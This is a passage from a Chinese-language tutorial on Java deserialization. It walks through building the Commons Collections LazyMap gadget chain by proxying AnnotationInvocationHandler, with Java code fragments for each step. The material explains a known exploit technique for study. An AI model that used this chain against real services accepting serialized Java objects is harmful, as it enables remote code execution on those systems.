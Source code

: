 该类实现了invoke方法，作用是在监控到调用的方法名是get的时候，返回一个特殊字符串 Hacked Object 。

在外部调用这个ProxyTest：  

```java
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class ProxyTestApp {
    public static void main(String[] args) throws Exception {
        InvocationHandler handler = new ProxyTest(new HashMap());
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        proxyMap.put("hello", "world");
        String result = (String) proxyMap.get("hello");
        System.out.println(result);
    }
}
```

运行ProxyTestApp，我们可以发现，虽然我向Map放入的hello值为world，但我们获取到的结果却是 Hacked Object ：  

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231117134306.png)

我们回看 sun.reflect.annotation.AnnotationInvocationHandler，会发现实际上这个类实际就
是一个InvocationHandler，我们如果将这个对象用Proxy进行代理，那么在readObject的时候，只要
调用任意方法，就会进入到 AnnotationInvocationHandler#invoke 方法中，进而触发我们的
LazyMap#get。

## 构造利用链

在TransformedMap POC的基础上进行修改，首先使用LazyMap替换TransformedMap：  

```java
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
```

然后，我们需要对 sun.reflect.annotation.AnnotationInvocationHandler 对象进行Proxy：  

```java
Class clazz =
Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new
Class[] {Map.class}, handler);
```

代理后的对象叫做proxyMap，但我们不能直接对其进行序列化，因为我们入口点是
sun.reflect.annotation.AnnotationInvocationHandler#readObject ，所以我们还需要再用AnnotationInvocationHandler对这个proxyMap进行包裹：  

```java
handler = (InvocationHandler) construct.newInstance(Retention.class,
proxyMap);
```
